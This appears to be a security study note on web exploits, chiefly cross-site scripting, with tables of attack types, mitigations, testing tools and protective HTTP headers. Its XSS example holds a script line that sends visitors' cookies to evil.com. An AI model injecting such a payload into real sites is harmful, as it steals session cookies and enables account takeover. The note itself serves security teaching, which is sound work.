 **Web exploits** target vulnerabilities in websites and web applications to manipulate data, execute code, or compromise users. One of the most common and dangerous classes of web exploits is **Cross-Site Scripting (XSS)**.

---

## 🎯 Goals of Web Exploits

- Steal user data (cookies, tokens, credentials)
- Perform unauthorized actions (via session hijacking or injection)
- Bypass authentication or input validation
- Compromise the integrity and availability of web applications

---

## 💥 What is XSS (Cross-Site Scripting)?

**XSS** is an attack that injects **malicious scripts** (typically JavaScript) into web pages viewed by other users. The malicious script runs in the context of the victim’s browser.

---

## 🚦 Types of XSS Attacks

| Type             | Description                                                                 | Example |
|------------------|-----------------------------------------------------------------------------|---------|
| **Stored XSS**   | Malicious script is saved on the server and delivered to all users          | Comment forms, forums |
| **Reflected XSS**| Malicious script is in the URL or request and reflected back in the response| Search boxes, error pages |
| **DOM-based XSS**| The browser's client-side JavaScript modifies the DOM unsafely              | Front-end JS frameworks |

---

## 🧪 XSS Example

```html
<script>fetch('http://evil.com/steal?cookie=' + document.cookie)</script>
```
This script could be injected into a vulnerable comment field, stealing session cookies from users who view the page.

## 🔍 Other Common Web Exploits

|Exploit Type|Description|
|---|---|
|**SQL Injection (SQLi)**|Injecting malicious SQL commands to manipulate databases|
|**Command Injection**|Execute system commands on the server|
|**CSRF**|Tricks users into making unwanted actions while authenticated|
|**File Inclusion (LFI/RFI)**|Load arbitrary server or external files|
|**Directory Traversal**|Access unauthorized directories via path manipulation|
|**Broken Authentication**|Exploit session management flaws to impersonate users|
|**Clickjacking**|Tricking users into clicking hidden elements|

---

## 🛡️ XSS Mitigation Techniques

|Defense Layer|Technique|
|---|---|
|**Input Validation**|Reject or sanitize input on all user fields|
|**Output Encoding**|Encode all output contexts (HTML, JS, URL, attributes)|
|**CSP (Content Security Policy)**|Restrict where scripts can be loaded from|
|**HttpOnly Cookies**|Prevent JavaScript from accessing session cookies|
|**Sanitization Libraries**|Use tools like DOMPurify, OWASP Java Encoder|

---

## 🧱 General Web Exploit Mitigations

- ✅ Use **parameterized queries** to prevent SQLi
- ✅ Enable **input whitelisting** over blacklisting
- ✅ Implement **secure authentication & session management**
- ✅ Apply **least privilege** for database and file access
- ✅ Keep frameworks and platforms **patched and updated**
- ✅ Use **Web Application Firewalls (WAFs)** to detect/block common attacks

---

## 🧠 Tools for Testing Web Exploits

|Tool|Purpose|
|---|---|
|**Burp Suite**|Intercept, modify, and replay HTTP requests|
|**OWASP ZAP**|Automated web vulnerability scanner|
|**sqlmap**|Automated SQL injection testing|
|**BeEF**|Browser exploitation framework|
|**Nikto**|Scan for outdated/vulnerable web servers|

---

## 📋 HTTP Headers That Help

|Header|Purpose|
|---|---|
|`Content-Security-Policy`|Mitigates XSS by controlling source of scripts|
|`X-Content-Type-Options`|Prevents MIME-sniffing attacks|
|`X-Frame-Options`|Defends against clickjacking|
|`Set-Cookie: HttpOnly; Secure; SameSite=Strict`|Protects session cookies|

---

## 🗂 Related Topics

- [[OWASP Top 10]]
- [[Secure Web Application Design]]
- [[Content Security Policy (CSP)]]
- [[Session Hijacking]]
- [[SQL Injection (SQLi)]]
- [[Authentication Attacks]]

---

## 🏷 Tags

#xss #web_exploits #sql_injection #csrf #dom_xss #stored_xss #reflected_xss #web_security #owasp #security+ #input_validation
